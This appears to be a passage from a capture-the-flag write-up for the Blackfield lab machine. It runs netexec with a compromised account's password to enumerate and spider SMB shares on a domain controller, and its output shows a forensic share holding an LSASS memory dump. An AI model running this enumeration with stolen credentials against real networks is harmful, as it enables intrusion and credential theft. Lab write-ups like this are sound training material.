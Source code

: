 `netexec smb 10.10.10.192 -u 'audit2020' -p 'H4ck3d!' --shares -M spider_plus`:
```
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\audit2020:H4ck3d! 
SPIDER_PLUS 10.10.10.192    445    DC01             [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.10.10.192    445    DC01             [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.10.10.192    445    DC01             [*]     STATS_FLAG: True
SPIDER_PLUS 10.10.10.192    445    DC01             [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.10.10.192    445    DC01             [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.10.10.192    445    DC01             [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.10.10.192    445    DC01             [*]  OUTPUT_FOLDER: /tmp/nxc_hosted/nxc_spider_plus
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic        READ            Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.10.192    445    DC01             profiles$       READ            
SMB         10.10.10.192    445    DC01             SYSVOL          READ            Logon server share 
SPIDER_PLUS 10.10.10.192    445    DC01             [+] Saved share-file metadata to "/tmp/nxc_hosted/nxc_spider_plus/10.10.10.192.json". ←
SPIDER_PLUS 10.10.10.192    445    DC01             [*] SMB Shares:           7 (ADMIN$, C$, forensic, IPC$, NETLOGON, profiles$, SYSVOL)
SPIDER_PLUS 10.10.10.192    445    DC01             [*] SMB Readable Shares:  5 (forensic, IPC$, NETLOGON, profiles$, SYSVOL)
SPIDER_PLUS 10.10.10.192    445    DC01             [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.10.10.192    445    DC01             [*] Total folders found:  369
SPIDER_PLUS 10.10.10.192    445    DC01             [*] Total files found:    726
SPIDER_PLUS 10.10.10.192    445    DC01             [*] File size average:    977.56 KB
SPIDER_PLUS 10.10.10.192    445    DC01             [*] File size min:        0 B
SPIDER_PLUS 10.10.10.192    445    DC01             [*] File size max:        125.87 MB
```

`cat /tmp/nxc_hosted/nxc_spider_plus/10.10.10.192.json`:
```json
{
    "NETLOGON": {},
    "SYSVOL": {
        "BLACKFIELD.local/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI": {
            "atime_epoch": "2020-02-23 12:20:36",
            "ctime_epoch": "2020-02-23 12:13:14",
            "mtime_epoch": "2020-02-23 12:20:36",
            "size": "22 B"
        },

[...]

	},
    "forensic": {
        "memory_analysis/lsass.zip": {
            "atime_epoch": "2020-05-28 22:25:08",
            "ctime_epoch": "2020-05-28 22:25:01",
            "mtime_epoch": "2020-05-28 22:29:24",
            "size": "39.99 MB"
        },

[...]
```